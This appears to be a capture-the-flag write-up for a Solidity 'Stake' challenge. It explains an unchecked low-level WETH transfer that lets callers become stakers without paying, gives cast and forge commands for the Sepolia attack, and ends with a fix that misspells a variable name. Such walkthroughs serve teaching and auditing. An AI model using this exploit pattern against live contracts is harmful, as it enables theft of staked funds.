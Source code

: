 # Stake

Stake is safe for staking native ETH and ERC20 WETH, considering the same 1:1 value of the tokens. Can you drain the contract?

To complete this level, the contract state must meet the following conditions:

* The Stake contract's ETH balance has to be greater than 0.
* totalStaked must be greater than the Stake contract's ETH balance.
* You must be a staker.
* Your staked balance must be 0.

[ERC-20 specification](https://github.com/ethereum/ercs/blob/master/ERCS/erc-20.md)

[OpenZeppelin contracts](https://github.com/OpenZeppelin/openzeppelin-contracts)


## Vulnerability

### You must be a staker.

```bash
function StakeWETH(uint256 amount) public returns (bool){
    require(amount >  0.001 ether, "Don't be cheap");
    (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
    require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
    totalStaked += amount;
    UserStake[msg.sender] += amount;
    (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
    Stakers[msg.sender] = true;
    return transfered;
}
```

`StakeWETH` incorrectly handles the result of a low-level call to the `WETH` contract for transferring tokens. Specifically, the function attempts to transfer `WETH` tokens from the caller to the contract itself and sets the caller as a `staker` regardless of whether the transfer was successful.

1. `Low-level call handling`: The function uses a low-level call to interact with the `WETH` contract. Low-level calls do not automatically revert the transaction when the called contract function fails. Instead, they return a boolean value indicating success (`true`) or failure (`false`).
2. `Incorrect success check`: After making the low-level call, the function checks the first return value (`transferred`) to determine if the call was successful. However, it does not properly handle the case when transferred is `false`. The absence of a require statement or similar check means that even if the transfer fails the function proceeds as if the transfer succeeded.
3. `Unconditional staker status assignment`: Regardless of the transfer's outcome, the function marks the caller as a `staker` by setting `Stakers[msg.sender] = true`;. This means a caller can become a staker without actually transferring any WETH tokens to the contract, as long as they call `StakeWETH`.
4. `Security and logical flaw`: This oversight is a significant security and logical flaw. It allows anyone to become a staker without fulfilling the intended requirement of transferring `WETH` tokens to the contract. This could lead to unintended consequences in the contract's logic and potentially exploit the staking mechanism.

## Attack

1.  You must be a `staker` and your staked balance must be 0.

```bash
cast send $STAKE_CONTRACT_ADDRESS "StakeETH()" --value 0.001000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

cast send $STAKE_CONTRACT_ADDRESS "Unstake(uint256)" "0.001000000000000001 ether" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/address/0x07C02666f37ac5E5F5247CA6265641d0a6d10A1a
```

2. The `Stake` contract's ETH balance has to be greater than 0 and `totalStaked` must be greater than `Stake` contract's ETH balance.

```bash
forge script script/DeployStakeAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x77881d44AC281Fa6A304C204FD07163a940c9710

cast send $CONTRACT_ADDRESS "attack()" --value 0.001000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy
```

## Fix

```bash
function StakeWETH(uint256 amount) public returns (bool){
    require(amount >  0.001 ether, "Don't be cheap");
    (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
    require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
    totalStaked += amount;
    UserStake[msg.sender] += amount;
    (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
    require(transferred, "WETH transfer failed");
    Stakers[msg.sender] = true;
    return transfered;
}
```
